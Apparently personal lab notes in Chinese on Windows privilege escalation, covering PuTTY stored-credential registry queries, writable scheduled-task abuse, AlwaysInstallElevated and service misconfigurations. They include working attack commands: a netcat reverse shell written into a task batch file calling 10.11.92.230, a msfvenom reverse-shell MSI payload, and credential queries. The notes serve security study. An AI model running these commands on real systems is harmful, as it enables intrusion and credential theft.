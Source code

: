 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 從軟體檢索憑證：PuTTY
		--> PuTTY 是 Windows 系統上常見的 SSH 用戶端
		--> 儲存會話、儲存 IP、使用者和其他配置 : 
		--> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
			=> Simon Tatham 是 PuTTY 的創建者 //不是我們要檢索使用者名稱
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Scheduled Tasks : 
		--> 查看目標系統上的排程任務
		--> schtasks : 可以使用不帶任何選項的命令從命令列列出計劃任務
			--> schtasks /query /tn(task name) vulntask /fo list /v 
				--> Task to Run : 指示計劃任務執行的內容
				--> Run As User : 顯示將使用的使用者執行任務
				--> if we are the runner => can move file (bash)
				
		--> icacls : 檢查可執行檔的檔案權限
			--> icacls c:\tasks\schtask.bat
				=> 完全存取權限 (F)
				--> 可以修改 .bat 檔案並插入我們喜歡的任何有效負載
				
		--> echo c:\tools\nc64.exe -e cmd.exe 10.11.92.230 4444 > c:\tasks\schtask.bat
			=> 啟動 : schtasks /run /tn vulntask
		--> kali : nc -lvp 4444
			=> C:\Windows\system32>
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> AlwaysInstallElevated (始終安裝提升)
		--> Windows 安裝程式檔案（也稱為 .msi 檔案）
		--> 產生一個以管理員權限執行的惡意 MSI 檔案
		
		--> 設定兩個註冊表值 : 
			--> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
			--> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
			
			--> 產生惡意 .msi 文件 (reverse shell)
			--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
			--> 執行相應配置的Metasploit處理程序模組 => run
			--> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
			
## Abusing Service Misconfigurations : 濫用服務錯誤配置
	=> C:\Windows\system32> 
	=> cmd : sc | Ps: sc.exe
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Windows Services : 
		--> Windows 服務由服務控制管理員(SCM)
			--> sc qc apphostsvc : 檢查 apphostsvc 服務配置
				=> BINARY_PATH_NAME   : 指定關聯的可執行檔
				=> SERVICE_START_NAME : 用於執行服務的帳戶
				
			--> 自主存取控制清單 (DACL) : 
				--> 誰有權啟動、停止、暫停、查詢狀態、查詢配置或重新配置服務以及其他權限
					--> Process Hacker <-- Desktop
					